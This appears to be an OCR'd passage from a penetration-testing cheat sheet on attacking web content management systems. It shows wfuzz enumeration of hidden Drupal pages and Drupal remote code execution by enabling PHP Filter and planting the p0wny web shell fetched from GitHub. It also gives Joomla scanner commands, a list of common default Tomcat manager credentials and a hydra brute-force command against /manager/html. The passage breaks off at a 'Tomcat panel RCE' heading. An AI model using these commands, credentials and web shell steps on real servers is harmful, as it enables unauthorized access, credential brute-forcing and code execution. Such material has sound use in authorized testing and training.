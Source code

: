 #### Hidden pages enumeration

```
Fuzz /node/<NUMBER> where <NUMBER> is a number (from 1 to 500 for example).
You could find hidden pages (test, dev) which are not referenced by the search engines.

wfuzz -c -z range,1-500 --hc 404 <URL>/node/FUZZ
```

#### Drupal panel RCE

```
You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)

Go to Modules -> (Check) PHP Filter  -> Save configuration

https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php

Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
```

### Joomla

```
joomscan -u <URL>
./joomlavs.rb --url <URL> -a -v
```

### Tomcat

#### Default credentials

```
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

#### Brute force 

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
```

#### Tomcat panel RCE

